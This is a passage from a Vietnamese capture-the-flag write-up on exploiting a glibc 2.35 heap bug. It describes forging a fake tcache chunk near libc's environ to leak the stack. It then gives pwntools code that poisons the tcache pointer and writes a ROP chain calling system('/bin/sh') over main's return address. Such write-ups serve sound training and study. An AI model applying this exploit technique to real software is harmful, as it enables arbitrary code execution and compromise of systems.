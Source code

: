 Ở đây mình làm tương tự như bước 2 đó là sửa con trỏ và tạo 1 fake chunk tại vị trí có chứa `stack_addr` và leak stack có sẵn tại đó

Mình có tìm thấy 1 nhiều địa chỉ chứa giá trị stack nhưng địa chỉ phù hợp đó là `libc.sym['environ']` do trước đó 16 bytes = 0 thì fake chunk không bị lỗi và mình cũng không bị set data thành (null). Mình đã fake `forward_ptr` để nó trỏ đến vị trí trước `libc.sym['environ']` 1 khoảng 0x10 bytes do ở đây 10 bytes này null và phần data cũng null

Trước đó mình đã thử nhiều size khác nhau nhưng đều bị lỗi `malloc(): unaligned tcache chunk detected`

Sau đó mình có xem source GLIBC 2.35 và nhận ra hàm tcache_get() được sử dụng để lấy một khối bộ nhớ từ bộ nhớ đệm cục bộ của luồng, và kiểm tra xem khối đó có được căn chỉnh đúng cách hay không. Nếu khối bộ nhớ không được căn chỉnh đúng cách, một thông báo lỗi sẽ được in ra.

![malloc.png](images/malloc.png)

Công việc còn lại như bước 2 và `show()` để leak stack và tính toán `saved_rip` của main thôi

# STEP_4:   Ghi rop_chain vào `saved_rip` của main

```
create(0, 0x48, b"a")
create(1, 0x48, b"a")
free(0)
free(1)

payload = p64(((heap+0x370)>>12)^(ret_addr-0x8))
edit(1, payload)

ret = libc.address + 0x0000000000029cd6
pop_rdi_ret = libc.address + 0x000000000002a3e5

payload = flat(
    p64(0xabcdef),
    ret,
    pop_rdi_ret,
    next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )

create(0, 0x48, b"A"*0x10)
create(0, 0x48, payload)

p.sendlineafter(b"[*] choice :", b"4")
```
